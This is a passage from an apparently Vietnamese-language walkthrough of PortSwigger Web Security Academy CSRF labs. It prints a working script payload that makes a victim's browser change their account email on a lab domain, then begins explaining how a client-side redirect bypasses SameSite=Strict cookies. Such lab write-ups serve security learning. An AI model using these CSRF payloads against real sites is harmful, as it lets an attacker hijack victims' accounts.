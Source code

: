 - Craft payload: 

```html
<script>
    document.location = "https://0ac30030038a360d80e5038c00590030.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
```

![image-20250603003741925](./image/image-20250603003741925.png)



### [Lab 7: SameSite Strict bypass via client-side redirect](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect)

Lab des: 

Trang web mục tiêu sử dụng cookie session với thuộc tính `SameSite=Strict`, ngăn cookie được gửi trong các cross-site requests. Tuy nhiên, có thể bypass được cơ chế này bằng cách sử dụng redirect phía client (JavaScript).

Trang web chứa một chức năng thay đổi email mà không sử dụng CSRF token, vì vậy nếu vượt qua được cơ chế bảo vệ SameSite, có thể tấn công CSRF thành công.

VD về SameSite strict:

- Trình duyệt không gửi cookie khi `evil.com` gửi `POST` trực tiếp đến `vulnerable.com` vì `SameSite=Strict`.
